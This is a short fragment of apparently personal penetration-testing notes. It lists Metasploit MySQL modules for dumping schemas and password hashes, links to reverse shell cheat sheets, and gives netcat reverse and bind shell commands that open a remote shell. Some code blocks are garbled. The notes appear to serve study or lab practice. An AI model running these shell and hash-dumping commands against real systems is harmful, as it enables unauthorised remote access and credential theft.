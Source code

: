 ```
set RHOSTS

```
run
```
run
```

```
mysql_schemadump
```
dumps database info from a mysql server

```
mysql_hashdump  
```

# Reverse Shells

Payloads all the Things
>https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

Reverse Shell Cheatsheet
>https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Reverse Shell Generator
>https://www.revshells.com/

---

## Reverse Shell example

on the attacking machine
```
sudo nc -lvnp 443
```
>starts a listener

on the target 
```
nc <LOCAL-IP> <PORT> -e /bin/bash
```

---

## Bind Shell example

On the attacking machine
```n
c 10.10.36.67 <port>
```

On the target
```
nc -lvnp <port> -e "cmd.sh"
```
>--cmd.exe would contain code that starts a listener attached to a shell directly on the target

---